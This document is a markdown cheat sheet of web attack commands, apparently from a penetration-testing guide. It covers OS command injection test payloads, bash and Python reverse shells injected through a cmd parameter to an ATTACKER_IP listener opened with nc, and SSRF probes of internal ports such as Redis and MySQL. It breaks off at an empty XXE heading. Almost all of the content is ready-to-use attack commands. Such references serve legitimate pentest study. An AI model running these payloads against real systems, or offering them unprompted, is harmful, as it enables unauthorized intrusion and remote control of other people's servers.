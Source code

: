 ## Command Injection

### Basic Testing

```bash
# Test for OS command injection
curl "http://TARGET/ping.php?ip=127.0.0.1;id"
curl "http://TARGET/ping.php?ip=127.0.0.1|whoami"
curl "http://TARGET/ping.php?ip=127.0.0.1\`whoami\`"
curl "http://TARGET/ping.php?ip=127.0.0.1%26%26whoami"  # URL encoded &&
```

### Getting Shell from Command Injection

```bash
# 1. Start listener
nc -lvnp 4444

# 2. Inject reverse shell
# Bash reverse shell
curl "http://TARGET/page.php?cmd=bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"

# Python reverse shell
curl "http://TARGET/page.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])'"
```

## Server-Side Request Forgery (SSRF)

### Basic SSRF Testing

```bash
# Test for SSRF
curl -X POST http://TARGET/fetch.php -d "url=http://127.0.0.1"
curl -X POST http://TARGET/fetch.php -d "url=http://localhost"
```

### SSRF to RCE

```bash
# Scan internal network

# Access internal services
curl "http://TARGET/fetch.php?url=http://localhost:8080"  # Internal Tomcat?
curl "http://TARGET/fetch.php?url=http://localhost:3306"  # MySQL?
curl "http://TARGET/fetch.php?url=http://localhost:6379"  # Redis?
```

## XML External Entity (XXE)

### XXE Testing
